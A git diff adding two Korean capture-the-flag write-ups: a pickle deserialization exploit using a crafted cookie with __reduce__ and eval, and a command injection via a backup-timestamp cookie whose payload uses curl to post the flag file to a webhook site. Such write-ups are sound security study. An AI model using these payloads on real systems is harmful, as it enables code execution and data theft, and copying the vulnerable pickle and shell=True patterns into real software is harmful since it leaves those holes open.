

7주차 진행

Changed region(s): [[0.2495, 0.5455, 0.8109, 0.8182]]

diff --git a/members/yongmin/week-07/jar/jar.md b/members/yongmin/week-07/jar/jar.md
@@ -1,0 +1,90 @@
+# jar
+
+구분: 공통 문제<br>
+난이도: Easy<br>
+분야: Web<br>
+상태: 작성 완료<br>
+작성일: 2026년 09월 10일<br>
+<br>
+
+# 0. 문제 정보
+
+# 문제 정보
+
+| 항목 | 내용 |
+| --- | --- |
+| 문제명 | jar |
+| 원본 대회 | angstromCTF 2021 |
+| 분야 | Web · Insecure Deserialization |
+| 난이도 | 초급 · 약 2/5 |
+| 접속 주소 | `http://localhost:5000` |
+| 플래그 형식 | `FLAG{...}` |
+
+# 1. 문제 요약
+
+- 사용자 입력을 직렬화하여 쿠키에 저장 후 역직렬화하여 화면에 표시
+- pickle 역직렬화 과정의 취약점을 이용하여 플래그 획득
+
+---
+
+# 2. 문제 분석
+**주요 코드**
+```python
+@app.route('/')
+def jar():
+	contents = request.cookies.get('contents')
+	if contents: items = pickle.loads(base64.b64decode(contents))
+	else: items = []
+	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
+		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)
+
+@app.route('/add', methods=['POST'])
+def add():
+	contents = request.cookies.get('contents')
+	if contents: items = pickle.loads(base64.b64decode(contents))
+	else: items = []
+	items.append(request.form['item'])
+	response = make_response(redirect('/'))
+	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)).decode())
+	return response
+```
+`/add`에서 입력받은 값(item)을 pickle을 이용하여 직렬화하여 쿠키에 저장한다.
+`/` 에서는 쿠키에 저장된 값들을 다시 pickle을 통해 역직렬화하여 화면의 랜덤한 위치에 표시한다.
+---
+# 3. 풀이
+
+pickle은 역직렬화 과정에서 객체의 `__reduce__` 메소드에 정의된 함수를 별도의 검증없이 실행한다. 공격자는 이를 이용해 서버측에서 원하는 함수를 실행할 수 있다.
+
+즉, `__reduce__` 메서드에 원하는 함수를 실행하도록 정의하고 이를 포함한 클래스 객체를 직렬화했다가 다시 역직렬화하면 설정한 함수가 실행된다.
+
+`/add`의 코드를 살펴보면, `item`은 직렬화되어 저장된 후 `/`에서 역직렬화된다. 따라서 `item`에 직렬화된 데이터를 넣는다면 총 두번 직렬화되면서 역직렬화시에도 원하는 함수가 실행되지 않고, 객체 자체를 전달하면 마찬가지로 객체 자체로 역직렬화된다.
+
+반면 쿠기에 있는 데이터는 바로 역직렬화하고 있기 때문에 직렬화된 데이터를 넣게되면 역직렬화되며 `__reduce__` 의 함수가 실행된다.
+```python
+import pickle
+import base64
+import requests
+
+class vul:
+    def __reduce__(self):
+        return (eval, ('[flag]', ))
+
+data = {'item' : '1234'}
+cookie = {'contents': base64.b64encode(pickle.dumps(vul())).decode()}
+response = requests.post('http://localhost:5000/add', data=data, cookies=cookie)
+print(response)
+print(response.text)
+```
+플래그를 얻기위한 코드
+
+`__reduce__` 메서드의 반환값은 튜플이며, 튜플의 첫 번째 요소는 callable한 객체, 두 번째 요소는 마찬가지로 튜플이며 첫 번째 요소를 호출할 때 사용할 인자이다.
+이 코드에서는 역직렬화시 `eval('[flag]')` 가 실행되도록 했다.
+
+`eval()`은 문자열 형태의 코드를 그대로 실행하여 그 결과를 반환하는 함수이다.
+전역 변수 `flag`에 접근하며, 그 결과는 `items`에 저장되어 `items.append()` 가 실행되기 때문에 `eval()`의 반환값은 리스트여야 한다.
+
+서버에 전송할 쿠키를 정의할 때, 서버에서 쿠키에 저장된 값을 base64 디코드한 후 역직렬화하고 있으므로 코드에서는 반대로 직렬화이후 base64 인코딩한다.
+이때 쿠키에는 문자열만 저장될 수 있기 때문에 `decode()`를 추가한다.
+
+최종적으로 만들어진 쿠키를 서버에 전송하면 플래그를 얻을 수 있다.
+![flag image](flag.png)

diff --git a/members/yongmin/week-07/Simple Note Manager/simple_note_manager.md b/members/yongmin/week-07/Simple Note Manager/simple_note_manager.md
@@ -1,0 +1,106 @@
+# Simple Note Manager
+
+구분: 개인 문제<br>
+난이도: Easy<br>
+분야: Web<br>
+상태: 작성 완료<br>
+작성일: 2026년 09월 12일<br>
+<br>
+
+# 0. 문제 정보
+
+# 문제 정보
+
+| 항목 | 내용 |
+| --- | --- |
+| 문제명 | Simple Note Manager |
+| 원본 대회 |  |
+| 분야 | Web  |
+| 난이도 | 초급 · 약 1/5 |
+| 접속 주소 | `https://dreamhack.io/wargame/challenges/1751` |
+| 플래그 형식 | `DH{...}` |
+
+# 1. 문제 요약
+
+- 간단한 메모를 생성, 수정, 삭제할 수 있는 기능을 제공하는 서비스
+- 백업 기능을 이용하여 운영체제 명령어 삽입
+
+---
+
+# 2. 문제 분석
+**주요 코드**
+```python
+def backup_notes(timestamp):
+    with lock:
+        with open('./tmp/notes.tmp', 'w') as f:
+            f.write(repr(notes))
+        subprocess.Popen(f'cp ./tmp/notes.tmp /tmp/{timestamp}', shell=True)
+...
+@app.route('/create_note', methods=['POST'])
+def post_create_note():
+    content = request.form.get('content')
+    if not isinstance(content, str):
+        abort(400)
+    create_note(content)
+    return redirect(url_for('get_index'))
+...
+@app.route('/update_note', methods=['POST'])
+def get_update_note():
+    note_id = request.form.get('note_id')
+    if not isinstance(note_id, str) or not note_id.isdigit():
+        abort(400)
+    note_id = int(note_id)
+    if note_id not in notes:
+        abort(404)
+    content = request.form.get('content')
+    if not isinstance(content, str):
+        abort(400)
+    update_note(note_id, content)
+    return redirect(url_for('get_index'))
+...
+@app.route('/delete_note', methods=['POST'])
+def post_delete_note():
+    note_id = request.form.get('note_id')
+    if not isinstance(note_id, str) or not note_id.isdigit():
+        abort(400)
+    note_id = int(note_id)
+    if note_id not in notes:
+        abort(404)
+    delete_note(note_id)
+    return redirect(url_for('get_index'))
+...
+@app.route('/backup_notes', methods=['GET'])
+def get_backup_notes():
+    print(len(notes), flush=True)
+    if len(notes) == 0:
+        abort(404)
+    page = render_template('backup_notes.html')
+    resp = make_response(page)
+    resp.set_cookie('backup-timestamp', f'{time.time()}')
+    return resp
+
+
+@app.route('/backup_notes', methods=['POST'])
+def post_backup_notes():
+    if len(notes) == 0:
+        abort(404)
+    backup_timestamp = request.cookies.get('backup-timestamp', f'{time.time()}')
+    if not isinstance(backup_timestamp, str):
+        abort(400)
+    backup_notes(backup_timestamp)
+    return redirect(url_for('get_index'))
+```
+간단한 메모를 생성, 수정, 삭제할 수 있는 기능을 제공하는 서비스
+
+백업 기능이 존재하며, 백업 기능에 접근했을 때(`@app.route('/backup_notes', methods=['GET'])` ) 쿠키에 타임스탬프를 저장하고, 백업 버튼을 누르면(`@app.route('/backup_notes', methods=['POST'])` ) `subprocess.Popen` 을 이용하여 `/tmp/[timestamp]` 에 현재 노트들을 저장한다.
+
+이때 쿠키값에 대한 별도의 검증이 없으므로 리눅스의 다중 명령어(`;` , `|` , `&` , `&&` , `||` )를 이용하여 셸 명령어를 실행할 수 있다.
+
+이때 HTTP에서 여러개의 쿠키값을 전달할 때 각 쿠키를 세미콜론(`;` )으로 구분하기 때문에 `;` 을 사용하게 되면 그 뒤의 값은 timestamp와 분리된다.
+`cp` 명령어의 수행을 실패시키는 것은 번거로우므로 `&` , `&&` 를 사용하여 원하는 명령어를 실행시키면 된다.
+```
+timestamp = test & curl -X POST "[webhook site url]" --data-urlencode "content@./flag"
+```
+브라우저의 개발자 도구를 이용해 쿠키 값을 위와 같이 설정하면 `cp ./tmp/notes.tmp /tmp/test` 는 백그라운드로 실행되고, 웹훅 사이트에 flag 파일의 내용을 body에 넣은 POST 요청을 보내게 된다.
+![flag img](flag.png)
+웹훅 사이트에서 확인하면 url 인코딩된 플래그를 얻을 수 있으며, 이를 디코딩하면 플래그를 얻을 수 있다.
